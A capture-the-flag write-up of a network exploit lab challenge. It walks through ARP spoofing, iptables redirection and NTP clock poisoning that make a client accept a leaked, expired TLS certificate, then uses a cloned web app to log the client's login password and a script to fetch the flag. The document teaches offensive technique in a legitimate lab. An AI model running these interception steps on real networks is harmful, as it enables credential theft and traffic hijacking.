

## Segal's Law (Network Exploit, 175pt)

> "A man with a watch knows what time it is. A man with two watches is never sure." - [Segal's Law](https://en.wikipedia.org/wiki/Segal%27s_law)
> 
> The third piggy (from Brick House) isn't too happy. Maybe you can make it up to him by contributing to his open-source web app

This was the last challenge in the Network Exploit category, created by [@nategraf](https://github.com/nategraf). It was actually the first time I worked on such special challenges in a CTF and based on my experience with *Segal's Law* I can say I really enjoyed it.

Speaking with [@nategraf](https://github.com/nategraf), he told me that all Network Exploit challenges were hosted in his platform ([Naumachia](https://github.com/nategraf/Naumachia)) that he has also [integrated with CTFd](https://github.com/nategraf/ctfd-naumachia-plugin) and open-sourced both - so lots of thumbs up go to him!

---

The challenge was not standalone and required information from the previous task, Brick House. Briefly, while performing a MiTM attack in the previous challenge, we could see the files of a web application being listed. This web application was our target for Segal's Law. While looking at the source of the files I observed a username (`catdaddy97`) in the `LICENSE` file. Combining this information with the challenge description (*"open-source web app"*), we found the [application source at GitHub](https://github.com/catdaddy97/catfacts). So, let's get started.


#### Network Mapping

We connect to the provided VPN and get access to the network `172.16.3.208/28` (each team had its own docker containers with a different dynamically allocated address space). Following the common steps of host discovery, port mapping, and also observing ARP requests in Wireshark for possible communication between the hosts, we have the findings given below:

```
172.16.3.210
172.16.3.211  <--- HTTPS Server (443/tcp)
172.16.3.212  <--- NTP Server   (123/udp)
172.16.3.213  <--- Client/Bot
```

Doing some `arpspoof` between the client and the servers, we are able to draw a more specific diagram of the network and the communications between them.

```
      HTTPS Server         NTP Server
    +--------------+    +--------------+
    | 172.16.3.211 |    | 172.16.3.212 |
    +--------------+    +--------------+
       (443/tcp) ^        ^ (123/udp)
                 |        |
                 |        |
                 |        |
              +--+--------+--+
              | 172.16.3.213 |
              +--------------+
                 Client/Bot
```


#### Catfacts application


Catfacts is actually an application that allows users to view random facts about cats. However, logged in users have access to a bonus fact which we can assume is the flag we must capture.

As said earlier, we already have the [application source code](https://github.com/catdaddy97/catfacts). Quickly reviewing the source code we find out that there are no vulnerabilities we could exploit. We also tried to use the default (harcoded) credentials but that would be too easy.

Looking into the [commit history](https://github.com/catdaddy97/catfacts/commits/master) of the repository we see there has been an accidental commit of a SSL certificate alongside the private key. So, we download the files and inspect the certificate.

```
❯❯❯ wget https://raw.githubusercontent.com/catdaddy97/catfacts/a371c28f3b6528f1e99052060564c1f248a3b922/certs/catfacts.naum.key
❯❯❯ wget https://raw.githubusercontent.com/catdaddy97/catfacts/a371c28f3b6528f1e99052060564c1f248a3b922/certs/catfacts.naum.crt
❯❯❯ openssl x509 -in catfacts.naum.crt -text -noout
...
        Serial Number:
            d7:e1:68:24:27:56:d3:02
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=US, ST=WA, L=Seattle, O=Naumachia CA, CN=ca.naum
        Validity
            Not Before: Nov 20 18:53:15 2016 GMT
            Not After : Nov 20 18:53:15 2017 GMT
        Subject: C=US, ST=WA, L=Seattle, O=The One and Only Cat Daddy, CN=catfacts.naum
...
```

The certificate has been signed by a local CA (`ca.naum`) but it has expired since November 2017. Now, let's inspect the live certificate.

```
❯❯❯ openssl s_client -showcerts -connect 172.16.3.211:443 < /dev/null | openssl x509 -text -noout
...
        Serial Number:
            d7:e1:68:24:27:56:d3:04
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=US, ST=WA, L=Seattle, O=Naumachia CA, CN=ca.naum
        Validity
            Not Before: Nov 12 15:33:00 2017 GMT
            Not After : Nov 12 15:33:00 2018 GMT
        Subject: C=US, ST=WA, L=Seattle, O=The One and Only Cat Daddy, CN=catfacts.naum
...
```

It seems that the application is using a renewed certificate, signed by the same local CA (`ca.naum`). That means that the client will happily accept such certificates if they are not expired!


#### Summary

* The client syncs his hardware clock with the NTP server (`172.16.3.212`).
* The client uses the application over HTTPS and we cannot intercept the communication since we don't have the certificate key for the live certificate and tools such as `sslstrip` or `sslsplit` (to forge a certificate) won't work with our expired cert.
* It seems that the client will accept certificates signed by the `ca.naum` authority and it happens that we have been able to acquire such a certificate even though it has expired.


#### The attack

**Strategy:**

* Perform MiTM between the client and the NTP server and poison the client's clock so it will accept our expired certificate.
* Clone and run the application locally and perform MiTM between the client and the HTTPS server in order to intercept the requests unencrypted.

Since the plan is to perform a MiTM attack, we first enable IP forwarding.

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Next, we need to setup a couple `iptables` rules to handle redirection of packets. First, we want to forward NTP packets to [`delorean`](https://github.com/PentesterES/Delorean) so that NTP poisoning can take place. We also need a rule to forward HTTPS packets to our local Flask instance.

```
iptables -t nat -A PREROUTING -p udp --dport 123 -j REDIRECT --to 1123
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to 8443
```

Perform MiTM between the bot and the NTP server and poison the bot's clock.

```
./delorean.py -n -p 1123 -d "2017-11-01 00:00"
arpspoof -i tap0 -t 172.16.3.212 -r 172.16.3.213
```

Finally, we perform MiTM between the bot and the HTTPS server, clone the catfacts application from Gtihub and perform a few tweaks so that it uses the expired certificate we own, and it also logs the POST data in login requests. The final version of the code can be found in the [catfacts](catfacts/) folder.

```
arpspoof -i tap0 -t 172.16.3.211 -r 172.16.3.213
```

```
❯❯❯ python catfacts.py 
 * Running on https://0.0.0.0:8443/ (Press CTRL+C to quit)
 * Restarting with inotify reloader
 * Debugger is active!
 * Debugger PIN: 204-472-512
172.16.2.116 - - [21/Feb/2018 04:54:17] "GET / HTTP/1.1" 200 -
172.16.2.116 - - [21/Feb/2018 04:54:21] "GET / HTTP/1.1" 200 -
172.16.2.116 - - [21/Feb/2018 04:54:23] "GET / HTTP/1.1" 200 -
--------------------------------------------------------------------------------
DEBUG in catfacts [catfacts.py:66]:
USER: catdaddy, PASS: YZ555N5MZCE2G6FAJTI367WTYQFFUMV2WB4Z4CLI4OAVRCUFQLHA
--------------------------------------------------------------------------------
172.16.2.116 - - [21/Feb/2018 04:54:26] "POST /login HTTP/1.1" 302 -
172.16.2.116 - - [21/Feb/2018 04:54:27] "GET / HTTP/1.1" 200 -
172.16.2.116 - - [21/Feb/2018 04:54:30] "GET / HTTP/1.1" 200 -
```

```
import re
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

_target = 'https://172.16.2.117/'
_user, _pass = 'catdaddy', 'YZ555N5MZCE2G6FAJTI367WTYQFFUMV2WB4Z4CLI4OAVRCUFQLHA'

sess = requests.Session()

# get csrf token
resp = sess.get(_target, verify=False)
csrf_token = re.search(r'value="([^"]{25,})"', resp.text).group(1)

# login and get flag
resp = sess.post(_target + 'login', data={'user': _user, 'passwd': _pass, 'csrf_token': csrf_token}, verify=False)
flag = re.search(r'gigem{([^}]+)}', resp.text).group(1)
print '[+] flag: gigem{{{}}}'.format(flag)
```


